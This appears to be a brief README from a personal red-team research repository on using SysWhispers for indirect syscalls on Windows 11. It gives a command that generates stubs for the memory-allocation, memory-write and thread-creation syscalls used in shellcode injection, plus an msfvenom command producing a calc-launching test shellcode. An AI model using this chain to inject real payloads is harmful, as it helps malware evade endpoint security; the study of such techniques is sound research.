 # 12 - Using SysWhisper for indirrect syscalls
This is my own research and experimentation using SysWhisper to perform a indirect syscall on Windows 11.

To create the files in SysWhisper:
`python syswhispers.py -f NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx,NtWaitForSingleObject,NtClose -a x64 -l masm --out-file syscalls`

To generate shellcode:
`msfvenom -a x64 --platform windows -p windows/x64/exec CMD="calc" -f c -v shellcode`

SysWhisper tutorial on Windows 10:
- https://redops.at/en/blog/direct-syscalls-a-journey-from-high-to-low